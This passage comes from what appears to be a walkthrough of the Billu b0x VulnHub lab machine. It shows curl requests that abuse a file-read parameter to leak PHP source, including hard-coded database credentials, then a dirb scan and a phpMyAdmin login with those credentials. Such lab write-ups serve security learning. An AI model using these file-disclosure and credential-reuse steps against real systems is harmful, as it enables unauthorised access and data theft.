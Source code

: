 If the file parameter isn't set. It gives an error message;
`'file' parameter is empty.` Please provide file path in 'file' parameter
If file is set and the file exists, it reads the contents of the file.
`readfile ($download);`

However no execution is possible.

Next we shall examine `/in.php`
```
root@marksmith:~# curl -d "file=in.php" http://192.168.109.146/test
<?php
    phpinfo();

?>
```
This will enable us to determine the webroot directory. If we navigate to /in.php we get phpinfo(), hence the web directory `/var/www/`

![9-4.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-4.png)

More on this later.

Next we shall examine `/c.php` :
```
root@marksmith:~# curl -d "file=c.php" http://192.168.109.146/test
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );

ini_set( 'session.cookie_httponly', 1 );

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }

?>
```
This gives some credentials for a database `"127.0.0.1","billu","b0x_billu","ica_lab"`

Earlier we noted that we running PHP. Could there be possibly a PHP admin page.
We run a more thorough dirb_scan.

_dirb http://192.168.109.129 /usr/share/dirb/wordlists/big.txt_

This returns the existence of a __phpmydmin__ site
`http://192.168.109.129/phpmy/`
We'll use the credentials to log in: `user:billu password:b0x_billu`

